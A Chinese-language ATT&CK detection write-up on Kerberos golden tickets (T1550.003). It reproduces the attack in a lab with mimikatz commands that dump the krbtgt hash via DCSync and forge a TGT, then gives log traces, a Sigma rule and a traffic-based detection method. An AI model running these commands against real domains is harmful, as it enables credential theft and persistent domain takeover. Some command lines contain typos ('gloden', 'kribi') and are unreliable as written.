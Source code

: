 # T1550-003-win-黄金票据

## 来自ATT&CK的描述

攻击者可能会使用被盗的Kerberos票证“传递票证”，使其在环境中横向移动，从而绕过正常的系统访问控制。传递票证（PtT）是一种使用Kerberos票证对系统进行身份验证的方法，无需访问帐户密码。Kerberos身份验证可以用作横向移动到远程系统的第一步。

在这种技术中，有效的Kerberos票有效的帐户被捕获OS凭证倾销。取决于访问级别，可以获得用户的服务票证或票证授予票证（TGT）。服务票证允许访问特定资源，而TGT可以用于从票证授予服务（TGS）请求服务票证以访问用户有权访问的任何资源。

可以为使用Kerberos作为身份验证机制的服务获取Silver Ticket，并用于生成票证以访问该特定资源和承载该资源的系统（例如，SharePoint）。

可以使用密钥分发服务帐户KRBTGT帐户NTLM哈希来获取域的Golden Ticket，这可以为Active Directory中的任何帐户生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

#### 验证是否成功

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://s1.ax1x.com/2020/04/16/JkS6Yj.png)

异常日志痕迹

![异常](https://s1.ax1x.com/2020/04/16/JkSykQ.png)

## 检测规则/思路

### Sigma规则

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1550-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

### 建议

最后，存在一些问题，mimikatz最新版本已经更新修复了一下问题，通过上述此特征检测黄金票据可能会产生误报或者漏洞，建议采用偏向流量侧的检测方法进行检测，思路如下。

1.AS-REP返回的Ticket字段中，虽然经过krbtgt密码的加密，但我们仍然可以对其计算唯一摘要值。

2.跟踪每一次的AS-REP TGT票据颁发，记录下Ticket Hash，存入列表A。

3.对每一次TGS-REQ中TGT Hash进行确认，判断该值是否存在于已知颁发过的TGT列表A中。如果不存在，则属于伪造的TGT，即黄金票据。

4.列表A的内容可设置过期时间，TGT和ST的默认最大有效期都是10小时。

## 参考推荐

MITRE-ATT&CK-T1550-003

<https://attack.mitre.org/techniques/T1550/003/>
